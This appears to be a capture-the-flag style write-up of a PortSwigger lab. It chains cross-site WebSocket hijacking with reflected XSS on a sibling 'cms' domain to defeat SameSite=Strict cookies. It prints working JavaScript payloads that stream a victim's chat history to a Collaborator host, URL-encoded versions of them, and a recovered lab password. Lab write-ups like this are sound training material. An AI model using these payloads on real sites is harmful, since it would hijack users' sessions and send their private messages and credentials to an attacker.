 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5e649fb8-fd0c-4375-ba6a-87998c60c702)

### Solution

we go to live chat option in the lab site

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/4e7f03ac-d3c4-4e6b-a603-ec0329549444)

we randomly input some words in the textbox.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/18b92b52-cb0e-4d46-a170-c259387f0e4c)

 our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value

 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c3eeffe6-1d45-4bb7-b495-87764009d1f1)

 the SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent. And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.

CSWSH proof of concept

```js
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9956575b-5d1c-457d-a02a-02caa752e78c)

Now click on poll now in burp collab observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d24fe816-c273-405c-8b87-6259d8296169)

In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d25b42c9-660f-424d-a642-8ad1946a45c9)

### Identify an additional vulnerability in the same "site"

In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.

Recreate the CSWSH script that you tested on the exploit server earlier.

```js
<script>
    var ws = new WebSocket('wss://0a40003304b259cd805944fe003500e0.web-security-academy.net/.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://87dsjwn795hq3zpus2sqpcmd84ev2rqg.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

URL encoding

```js
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%30%30%30%33%33%30%34%62%32%35%39%63%64%38%30%35%39%34%34%66%65%30%30%33%35%30%30%65%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%38%37%64%73%6a%77%6e%37%39%35%68%71%33%7a%70%75%73%32%73%71%70%63%6d%64%38%34%65%76%32%72%71%67%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.

```js
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Final payload 

```js
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%30%30%30%33%33%30%34%62%32%35%39%63%64%38%30%35%39%34%34%66%65%30%30%33%35%30%30%65%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%38%37%64%73%6a%77%6e%37%39%35%68%71%33%7a%70%75%73%32%73%71%70%63%6d%64%38%34%65%76%32%72%71%67%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```
Store and Deliver the exploit 

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5b587a7d-c5d1-4ecd-8fae-395631d32387)

now on the collaborator after typing poll now we can view the password

username `carlos` password `hcdgwe1767oor7lfymqe`

log in using the credentials

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/80b30456-0ed7-46c8-b398-173e430c23d2)

lab solved succesfully
